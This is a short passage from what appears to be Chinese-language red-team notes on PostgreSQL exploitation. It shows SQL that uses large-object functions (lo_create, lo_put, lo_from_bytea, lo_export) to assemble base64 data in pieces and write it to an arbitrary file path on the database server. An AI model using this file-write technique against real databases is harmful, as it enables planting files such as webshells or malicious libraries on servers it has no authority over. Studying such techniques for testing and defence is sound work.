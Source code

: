 ![](../../../../../assets/img/Security/RedTeam/软件服务安全/CS-Exploits/PostgreSQL/12.png)

或者还可以用 lo_put 在后面拼接进行写入

```sql
select lo_create(11116);
select lo_put(11116,0,'dGVzdDEyM');
select lo_put(11116,9,'zQ1Ng==');

select lo_from_bytea(11141,decode(encode(lo_get(11116),'escape'),'base64'));
select lo_export(11141,'/tmp/test.txt');
SELECT lo_unlink(11141);
```

![](../../../../../assets/img/Security/RedTeam/软件服务安全/CS-Exploits/PostgreSQL/45.png)

![](../../../../../assets/img/Security/RedTeam/软件服务安全/CS-Exploits/PostgreSQL/46.png)
